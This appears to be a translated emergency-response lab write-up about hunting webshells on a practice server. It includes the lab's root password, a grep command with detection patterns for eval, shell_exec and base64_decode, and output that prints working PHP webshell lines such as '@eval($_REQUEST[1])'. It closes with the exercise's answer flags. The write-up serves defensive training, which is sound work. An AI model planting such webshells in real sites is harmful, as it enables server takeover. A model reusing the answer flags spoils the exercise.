


# Emergency response-Webshell check and kill

## Overview
- Target machine name: `Webshell`
- Target machine account password: `root`/`xjwebshell`
- Question information
  - `flag` inside the hacker `webshell`
  - What tool is used by hackers for `shell`, `github` address`md5`
  - Hacker hides the full path of `shell``md5`
  - Hackers can kill horses without killing the horse's full path `md5`


## analyze

First, simply check and kill `Webshell` and found four Trojans. The first two are `Webshell` generated by `Godzilla`. In `/var/www/html/include/gz.php`, there is a string suspected to be `flag` in the comment, and

```bash
find /var/www/html -name "*.php" | xargs egrep 'assert|eval|phpinfo\(\)|\(base64_decoolcode|shell_exec|passthru|file_put_contents\(\.\*\$|base64_decode\('
```

```bash
/var/www/html/include/gz.php: eval($payload);
/var/www/html/include/Db/.Mysqli.php: eval($payload);
/var/www/html/wap/top.php:$fun = base64_decode($_GET['func']);
/var/www/html/shell.php:<?php phpinfo();@eval($_REQUEST[1]);?>
```



`/var/www/html/include/Db/.Mysqli.php` is the hidden `Webshell`, and `/var/www/html/wap/top.php` is to avoid killing `Webshell`.



## Flag

- `flag` inside the hacker `webshell`: `flag{027ccd04-5065-48b6-a32d-77c704a5e26d}`
- What tool is used by hackers to `shell`, `github` address`md5`:`flag{39392de3218c333f794befef07ac9257}`
- Hacker hides `md5` of the full path of `shell`:`flag{aebac0e58cd6c5fad1695ee4d1ac1919}`
- Hackers do not kill the horse's full path `md5`:`flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}`